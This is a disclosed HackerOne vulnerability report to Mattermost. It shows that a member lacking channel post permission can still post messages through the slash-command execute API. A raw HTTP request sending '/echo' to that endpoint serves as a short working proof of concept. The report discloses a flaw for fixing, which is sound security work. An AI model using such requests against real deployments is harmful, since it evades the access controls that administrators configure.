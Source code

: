 # Member role which doesn't have permission to send message can send by executing channel commands

## Report Details
- **Report ID**: 1851818
- **URL**: https://hackerone.com/reports/1851818
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-01-30T15:44:27.664Z
- **Disclosed**: 2024-05-08T14:14:55.990Z

## Reporter
- **Username**: ramsakal7582
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mattermost

## Vulnerability Information
## Summary:
Someone with a member permission who hasn't been given access to post message to the channel can post it by executing commands.

## Steps To Reproduce:

```
POST /api/v4/commands/execute HTTP/1.1
Host: test3.cloud.mattermost.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: */*
Accept-Language: en
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-CSRF-Token:5 [ jkue786iyfd6dkpiq7ftisys6y
Content-Type: application/json
Content-Length: 104
Origin: https://test3.cloud.mattermost.com
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"command":"/echo ami","channel_id":"khhnkrf5wf8yibwx8bd14s6fbw","team_id":"8jdphis493d4pbq3u1bagz643r"}
```

* Executing above command will post the message to the given channelID and TeamID when you try to reproduce it with your cookie.

## Impact

Someone who doesn't have permission to post message to the channel can still post it by executing channel commands.

## Attachments
No attachments
